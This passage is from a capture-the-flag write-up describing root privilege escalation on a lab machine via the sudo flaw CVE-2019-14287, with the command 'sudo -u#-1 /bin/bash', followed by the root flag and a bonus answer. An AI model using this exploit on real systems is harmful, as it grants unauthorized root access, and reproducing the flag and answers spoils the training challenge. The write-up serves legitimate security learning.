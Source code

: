 Google an exploit for this version:

![[Pasted image 20231115204318.png]]

Checking our sudo permissions with sudo -l:

![[Pasted image 20231115204553.png]]

Execute bash commands as root:

```
sudo -u#-1 /bin/bash
```

**CVE is: ==CVE-2019-14287==**

#### What is the root flag?

![[Pasted image 20231115205133.png]]

**Root flag is ==b53a02f55b57d4439e3341834d70c062==**

#### (Bonus) Who is Agent R?

**From root.txt, we can read that Agent R is ==DesKel==**
